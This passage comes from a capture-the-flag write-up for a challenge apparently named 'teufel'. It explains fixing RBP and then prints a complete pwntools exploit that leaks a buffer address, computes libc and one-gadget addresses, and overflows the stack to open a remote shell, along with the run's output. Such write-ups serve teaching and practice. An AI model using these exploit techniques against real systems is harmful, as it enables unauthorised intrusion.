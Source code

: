 ![3]({{ site.url }}{{ site.baseurl }}/assets/images/32c3/teufel/3.png){: .align-center}

Now, there is one more thing we have to do, and that is to fix RBP so that the line:

```shell
00000000000f6927         mov        rsp, qword [ss:rbp+var_110]
```

Will not cause the program to crash when RBP points to an invalid memory
address. We need RDI to point to a zero pointer to avoid problems. I picked an
address that would resolve to an area of null bytes. Here is the full exploit:

```python
from pwn import *

#context.log_level = "debug"

def launch(conn, payload):
    conn.send(p64(len(payload)))
    conn.send(payload)


def main():
    p = remote('136.243.194.41', 666)

    # Stage 1 - Info leak

    launch(p, "A"*9)
    add = p.recv(100)[9:-1]
    add = "\x00" + add
    add = add.ljust(8, "\x00")
    address = u64(add)

    log.success("Address of buffer: 0x%x" % address)

    # Stage 2

    libc_base = address - 0x5ea000
    magic_add = libc_base + 0xf6950
    zero_point = libc_base + 0x3c4428
    payload = "A"*8 + p64(zero_point) + p64(magic_add)
    launch(p, payload)

    print p.recv(1000)
    p.interactive()

if __name__ == "__main__":
    main()
```

Running the exploit:

```shell
$ python exploit.py
[+] Opening connection to 136.243.194.41 on port 666: Done
[+] Address of buffer: 0x7f2d91ad8000
AAAAAAAA($\x8b\x91-\x7f

[*] Switching to interactive mode
$ ls -la
total 32
drwxr-xr-x 2 root root 4096 Dec 26 11:25 .
drwxr-xr-x 3 root root 4096 Dec 23 18:06 ..
-rw-r--r-- 1 root root  220 Dec 23 18:06 .bash_logout
-rw-r--r-- 1 root root 3771 Dec 23 18:06 .bashrc
-rw-r--r-- 1 root root  675 Dec 23 18:06 .profile
-rw-r--r-- 1 root root   24 Dec 26 11:25 flag.txt
```